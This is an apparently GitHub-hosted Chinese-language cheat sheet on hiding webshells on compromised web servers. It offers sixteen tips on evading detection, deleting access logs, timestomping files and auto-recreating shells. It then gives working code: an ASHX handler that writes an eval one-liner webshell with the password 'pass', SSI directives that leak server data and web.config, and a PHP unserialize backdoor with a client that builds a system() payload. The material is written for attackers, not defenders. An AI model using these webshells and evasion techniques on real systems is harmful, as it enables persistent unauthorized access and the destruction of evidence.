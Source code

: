 

# 隐藏webshell的几条建议

```
1.尽量藏在那些程序员和管理员都不会经常光顾的目录中
比如:第三方工具的一些插件目录,主题目录,编辑器的图片目录以及一些临时目录

2.目录层级越深越好,平时网站不出问题的话,一般四五级目录很少会被注意到

3.webshell的名字千万不要太扎眼,比如:hack.php,sb.php,x.php这样的名字严禁出现……,在给webshell起名的时候尽量跟当前目录的,其他文件的名字相似度高一点,这样相对容易混淆视听,比如:目录中有个叫new.php的文件,那你就起个news.php

4.webshell里面尽量不要用类似eval这种过于敏感的特征,因为awk一句话就能查出来,除了eval,还有,比如:exec,system,passthru,shell_exec,assert这些函数都最好不要用,你可以尝试写个自定义函数,不仅能在一定程度上延长webshell的存活时间也加大了管理员的查找难度,也可以躲避一些功能比较简陋waf查杀,此外,我们也可以使用一些类似:call_user_func,call_user_func_array,诸如此类的回调函数特性来构造我们的webshell,即伪造正常的函数调用

5.靠谱的方法就是直接把一句话插到正常的网站脚本文件里面,当然最好是在一个不起眼的地方,比如:函数库文件,配置文件里面等等,以及那些不需要经常改动的文件……

6.再或者拿到权限以后,把网站日志中的所有关于webshell的访问记录和渗透时造成的一些网站报错记录全部删除

7.尝试利用静态文件隐藏一句话,然后用.htaccess 规则进行解析

8.把webshell的属性时间改为和同目录文件相同的时间戳,比如linux中的touch就是非常好的工具

9.当然,如果在拿到服务器权限以后,也可以自己写个脚本每隔一段时间检测下自己的webshell是否还存在,不存在就创建

10.利用php.ini 配置文件隐藏webshell,把webshell的路径加入到配置文件中

11.如果是大马的话,尽量把里面的一些注释和作者信息全部都去掉,比如intitle字段中的版本信息等等,用任何大马之前最好先好好的读几遍代码,把里面的shell箱子地址全部去掉推荐用开源的大马,然后自己拿过来仔细修改,记住,我们的webshell尽量不要用加密,因为加密并不能很好的解决waf问题,还有,大马中一般都会有个pass或者password字符,建议把这些敏感字段全部换成别的,因为利用这样的字符基本一句话就能定位到

12.养成一个好习惯,为了防止权限很快丢失,最好再同时上传几个备用webshell,注意,每个webshell的路径和名字千万不要都一样更不要在同一个目录下,多跳几层,记住,确定shell正常访问就可以了,不用再去尝试访问看看解析是否正常,因为这样就会在日志中留下记录,容易被查到

13.在有权限的情况,看看管理员是否写的有动态webshell监测脚本,务必把脚本找出来,crontab一般都能看见了

14.上传个精心构造的图片马,然后再到另一个不起眼的正常的网站脚本文件中去包含这个图片马

15.如果有可能的话,还是审计下目标的代码,然后想办法在正常的代码中构造执行我们自己的webshell,即在原生代码中执行webshell

16.上传.user.ini文件来解析图片或隐藏webshell[https://ha.cker.in/1097.seo]

```

# 写shell技巧

## ashx写入

ashx脚本，服务器有.net环境但aspx被禁止上传时适用。这个执行后会在当前目录下生成webshell.asp一句话木马，密码是pass 也可以写入其它文件

```as
<%@ WebHandler Language="C#" class="Handler"% >
using System;
using System.Web;
using System.IO;
public class Handler:IHttpHandler {
 
public void ProcessRequest (HttpContext context) {
    context.Response.ContentType = "text/plain";
    StreamWriter file = File.CreateText(context.Server.MapPath("webshell.asp")));
    file.Write("<%eval request(\"pass\")%>");
    file.Flush();
    file.Close();
    context.Response.Write("www.webshell.cc");
}
 
public bool IsReusable {
    get {
        return false;
    }
}
}
```



## 别忘了shtml

stm/shtm/shtml脚本，虽然不能直接拿到webshell，但是可以获取到一些服务器信息。注意stm中的include可以将web.config文件中的内容包含进来

```html
<!--#ECHO var="ALL_HTTP"-->
当前文件名称:<!--#ECHO var="DOCUMENT_NAME"-->
Web服务器的名称和版本:<!--#ECHO var="SERVER_SOFTWARE"-->
主机名:<!--#ECHO var="SERVER_NAME"-->
端口:<!--#ECHO var="SERVER_PORT"-->
客户或客户代理IP地址:<!--#ECHO var="REMOTE_ADDR"-->
客户或客户代理主机名:<!--#ECHO var="REMOTE_HOST"-->
PATH_INFO 的值，但带有扩展为某个目录规范的虚拟路径:
<!--#ECHO var="PATH_TRANSLATED"-->
客户端给出附加路径信息:<!--#ECHO var="PATH_INFO"-->
<!--#ECHO var="HTTP_ACCEPT"-->
<!--#ECHO var="DOCUMENT_URI"-->
<!--#include file="../../web.config"-->
```

## 利用unserialize构造webshell

server:

```php
<?php

class foo{
    public $data="text";
    function __destruct()
    {
        eval($this->data);
    }

}

$file_name=$_GET['id'];
unserialize($file_name);
```

client:生成执行地址

```php
<?php

class foo{
    #public $data="phpinfo();";
    public $data="system('ls');";

}
$a=new foo;
$b=serialize($a);
echo "please visit uri:\n"."[your shell page url]"."?id=".$b;
```

原理：服务端被访问后在内存中有一个foo类模板,当客户端伪造一个同名的叫做foo的类的对象的序列化后的结果给服务端反序列化时,服务端在反序列化这个这个传入的反序列化值后将认为这是当前内存中对应的foo类模板的一个实例对象,于是去执行当前内存的foo类模板的`__wakeup`,`__destruct`等函数,但是恰好这些函数会造成php代码执行[eval($this->data)],且$this->data可控.




## 资料
shtml

https://www.t00ls.net/viewthread.php?tid=21318

Deformity PHP Webshell、Webshell Hidden Learning

http://www.cnblogs.com/LittleHann/p/3522990.html

unserialize免杀webshell

http://3xp10it.cc/web/2017/04/18/unserialize%E5%85%8D%E6%9D%80webshell/